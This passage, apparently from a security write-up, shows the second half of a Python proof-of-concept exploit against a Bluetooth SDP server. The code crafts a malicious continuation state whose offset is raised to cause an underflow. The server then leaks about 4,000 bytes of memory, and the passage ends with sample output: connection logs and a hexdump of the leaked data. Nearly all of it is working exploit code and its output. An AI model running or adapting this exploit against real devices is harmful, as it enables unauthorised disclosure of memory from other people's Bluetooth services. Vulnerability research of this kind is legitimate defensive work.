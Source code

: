 ```python
        None)               # no cstate for now
    sock.send(sdp)
    # receive response to first packet
    data = sock.recv(mtu)
    # parse the cstate we received from the server
    cstate_len_index = len(data)-9
    cstate_len = u8(data[cstate_len_index], endian='little')
    # sanity check: cstate length should always be 8 byte
    if cstate_len != 8:
        log.error('We did not receive a cstate with the length we expected, check if the attribute ids are correct')
        exit(1)
    # the cstate contains a timestamp which is used as a "key" on the server to find the
    # cstate data again. We will just send the same value back
    timestamp = u32(data[cstate_len_index+1:cstate_len_index+5], endian='little')
    # offset will be the value of cstate->cStateValue.maxBytesSent when we send it back
    offset = u16(data[cstate_len_index+5:cstate_len_index+7], endian='little')
    log.info("cstate: len=%d timestamp=%x offset=%d" % (cstate_len, timestamp, offset))
    if offset != 101:
        log.error('we expected to receive an offset of size 101, check if the attribute request is correct')
        exit(2)
    # now we craft our malicious cstate
    cstate = p32(timestamp, endian='little')    # just send back the same timestamp
    cstate += p16(offset+100, endian='little')  # increase the offset by 100 to cause underflow
    cstate += p16(0x0000, endian='little')      # 0x0000 to indicate end of cstate
    log.info('Triggering infoleak...')
    # now we send the second packet that triggers the information leak
    # the manipulated CSTATE will cause an underflow that will make the server
    # send us LEAK_BYTES bytes instead of the correct amount.
    sdp = sdppacket(SERVICE_REC_HANDLE, LEAK_BYTES, attr*10, cstate)
    sock.send(sdp)
    # receive leaked data
    data = sock.recv(mtu)
    log.info("The response is %d bytes large" % len(data))
    print hexdump(data)
```
If everything happens as expected, we shall get a similar output to this:<br>
```dump
[*] Creating L2CAP socket
[*] Connecting to target
[*] Sending packet to prepare serverside cstate
[*] cstate: len=8 timestamp=5aa54c56 offset=101
[*] Triggering infoleak...
[*] The response is 4111 bytes large
00000000  05 00 00 10  0a 0f ff 68  6e 6f 6c 6f  67 69 65 73  │····│···h│nolo│gies│
00000010  3d 42 52 2f  45 44 52 3b  0a 54 72 75  73 74 65 64  │=BR/│EDR;│·Tru│sted│
00000020  3d 66 61 6c  73 65 0a 42  6c 6f 63 6b  65 64 3d 66  │=fal│se·B│lock│ed=f│
00000030  61 6c 73 65  0a 53 65 72  76 69 63 65  73 3d 30 30  │alse│·Ser│vice│s=00│
00000040  30 30 31 31  30 35 2d 30  30 30 30 2d  31 30 30 30  │0011│05-0│000-│1000│
00000050  2d 38 30 30  30 2d 30 30  38 30 35 66  39 62 33 34  │-800│0-00│805f│9b34│
00000060  66 62 3b 30  30 30 30 31  31 30 36 2d  30 30 30 30  │fb;0│0001│106-│0000│
00000070  2d 31 30 30  30 2d 38 30  30 30 2d 30  30 38 30 35  │-100│0-80│00-0│0805│
00000080  66 39 62 33  34 66 62 3b  30 30 30 30  31 31 30 61  │f9b3│4fb;│0000│110a│
00000090  2d 30 30 30  30 2d 31 30  30 30 2d 38  30 30 30 2d  │-000│0-10│00-8│000-│
000000a0  30 30 38 30  35 66 39 62  33 34 66 62  3b 30 30 30  │0080│5f9b│34fb│;000│
000000b0  30 31 31 30  63 2d 30 30  30 30 2d 31  30 30 30 2d  │0110│c-00│00-1│000-│
000000c0  38 30 30 30  2d 30 30 38  30 35 66 39  62 33 34 66  │8000│-008│05f9│b34f│
000000d0  62 3b 30 30  30 30 31 31  30 65 2d 30  30 30 30 2d  │b;00│0011│0e-0│000-│
000000e0  31 30 30 30  2d 38 30 30  30 2d 30 30  38 30 35 66  │1000│-800│0-00│805f│
000000f0  39 62 33 34  66 62 3b 30  30 30 30 31  31 31 32 2d  │9b34│fb;0│0001│112-│
00000100  30 30 30 30  2d 31 30 30  30 2d 38 30  30 30 2d 30  │0000│-100│0-80│00-0│
00000110  30 38 30 35  66 39 62 33  34 66 62 3b  30 30 30 30  │0805│f9b3│4fb;│0000│
```